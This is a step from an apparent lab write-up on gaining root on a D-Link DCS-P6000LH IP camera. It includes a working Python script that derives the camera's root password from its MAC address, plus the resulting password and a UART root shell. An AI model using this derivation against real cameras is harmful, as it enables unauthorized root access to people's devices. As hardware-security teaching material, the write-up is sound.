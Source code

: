 ## Step - Finding the Root Password for the IP Camera  
Once we had access to the device, and we accessed the camera's terminal via the minicom tool provided for us, we needed to enter the root password. In order 
to do this, we had to use the following Python script:  
```
# dcsp6000lh-rootpw.py
# Calculates the root password for Dlink DCS-P6000LH IP cam
 
import hashlib
 
# MAC address of the IP cam (in upper case)
mac = "B0:C5:54:40:0D:13"

# Default empty string
factorypwd = ""
 
buf = f"{factorypwd}+{mac}\n"
 
hsh = hashlib.md5(buf.encode('ascii')).hexdigest()
 
rootpw = f"{hsh[0]}{hsh[1]}{hsh[2]}{hsh[27]}{hsh[28]}{hsh[29]}{hsh[30]}{hsh[31]}"
print(f"root:{rootpw}")
```  
For this script to run, we needed to have the MAC address of the IP camera, which was recovered from the camera's packaging. The next few lines of code
manipulate the string generated from the ```md5``` and ```encoding``` functions to gather the necessary data for the root password. Finally, after all the
processes were done, the script prints the IP camera's root password. Once we had the password, which in our case was ```555718df```, we had to enter it 
into the password prompt of the camera's terminal. This enabled us to complete the final step of the lab and establish a root shell on the device via UART.
